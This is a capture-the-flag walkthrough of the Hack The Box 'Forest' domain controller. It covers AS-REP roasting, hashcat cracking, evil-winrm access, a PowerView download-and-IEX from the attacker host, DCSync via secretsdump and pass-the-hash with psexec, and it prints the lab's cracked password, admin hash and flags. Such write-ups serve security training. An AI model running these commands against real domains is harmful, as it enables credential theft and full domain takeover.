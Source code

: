 # Forest (Windows)

## Enumeration

### Nmap
I began my enumeration with an aggressive nmap scan because some boxes take some time to scan.
```
nmap -p- -Pn -T4 10.10.10.161 --min-rate=5000

-p- to scan all ports
-Pn for a no ping scan (scans open ports only)
-T4 for an aggressive (3 is default) timing; can give unreliable results, but is faster than the default
--min-rate=5000 for a min rate of 5000 packets per second; can also give unreliable results if it's too fast
```
![nmap1](Images/nmap1.png)

Then, I do a default NSE script scan with version detection on the ports.
```
nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 -Pn -T4 10.10.10.161 --min-rate=5000

-sC for default NSE script
-sV for version detection
```
![nmap2](Images/nmap2.png)

### Enum4linux
I then use enum4linux to get a Windows enumeration on my Linux machine.
```
enum4linux 10.10.10.161
```
![enum4linux](Images/enum4linux.png)  
I get a bunch of users on the machine.

### Ldapsearch
Then I use ldapsearch to search the LDAP directory server to get the domain name.
```
ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts

-H for the target host / LDAP server
-x for simple authentication (instead of SASL)
-s for scope (here, it is `base`)
namingcontexts to request for namingContexts
```
![ldapsearch](Images/ldapsearch.png)

I find the domain name htb.local (DC=htb,DC=local)

### AS-REP Roast
I start by using impacket's GetNPUsers to check for all domain users
```
impacket-GetNPUsers -dc-ip 10.10.10.161 -request 'htb.local/'

-dc-ip for the domain controller ip
-request to request TGT for users
'htb.local/' to request from the htb.local domain
```
![getnpusers](Images/getnpusers.png)

^ I then saved the above results to a file named svc-afresco.hash.

## Initial Foothold
### Hashcat
```
┌──(kali㉿kali)-[~/Desktop/htb/machines/forest]
└─$ hashcat -h | grep -i "kerberos"                                                              
  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol

-h for help (lists all the modes

grep for searching for a specific word
-i to ignore case and search for the word "kerberos"
```
AS-REP is 18200, so I then use hashcat to crack the password for svc-alfresco.
```
hashcat -m 18200 svc-alfresco.hash /usr/share/wordlists/rockyou.txt

-m for mode 18200 (AS-REP)
svc-alfresco.hash to use the hash file that I saved earlier
rockyou.txt as a default wordlist to use for hashcat
```
![hashcat](Images/hashcat.png)
I get the password s3rvice for the user svc-alfresco.

### Evil-WinRM
During the nmap scan, I see that port 5985 (wsman) and 47001 (winrm) are open.
I use evil-winrm to log into the machine as user svc-alfresco with the password s3rvice.
```
┌──(kali㉿kali)-[~/Desktop/htb/machines/forest]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

-i ip
-u user
-p password
```
Now that I"m in the machine, I can just use `cat` to read the contents of the user.txt file.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop cat user.txt
820aabe21740a9c9aac625ca2822e534
```

## Privilege Escalation
*Skipped uploading Bloodhound here*  
![paths](Images/paths.png)
Bloodhound shows that here's 2 jumps needed to get from svc.alfresco to Administrator.  
Svc.alfresco is a member of Service Accounts, which is a member of Privileged IT Accounts, which is a member of Account Operators.  
AKA svc.alfresco is a member of Account Operators.  
The Account Operators has a Generic All permissions on the Exchange Windows Permissions group. Right-clicking that and selecting `help` shows Abuse Info.

![abuseinfo](Images/abuseinfo.png)  
The Abuse Info shows me exactly what command(s) to use.

Add svc-alfresco to the Exchange Windows Permissions group.
```
*Evil-WinRM* PS C:\users\svc-alfresco\desktop> net group "Exchange Windows Permissions" svc-alfresco /add /domain
```

Import PowerView and obtain DCSync permission on svc-alfresco.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> (New-Object System.Net.WebClient).DownloadString('http://10.10.14.89/PowerView.ps1') | IEX
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> $SecPass = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $SecPass)
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> Add-ObjectACL -PrincipalIdentity marvel -Credential $Cred -Rights DCSync
```

### Secretsdump
I then use secretsdump to dump the administrator hash.
```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```
![secretsdump](Images/secretsdump.png)

### Impacket-psexec
I use impacket's psexec to log into the machine as the administrator, using the hash found in the previous step.
```
┌──(kali㉿kali)-[~/Desktop/htb/machines/forest]
└─$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161

-hashes for using a hash on the administrator user instead of a password
```

Finally, I `dir` to list the files in the directory and `type` to read the root.txt file.
```
C:\users\administrator\desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 61F2-A88F

 Directory of C:\users\administrator\desktop

09/23/2019  01:15 PM    <DIR>          .
09/23/2019  01:15 PM    <DIR>          ..
12/01/2023  02:01 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)  10,436,100,096 bytes free

C:\users\administrator\desktop>type root.txt
9a782c7840130cbb08a78b9cdb607171
```
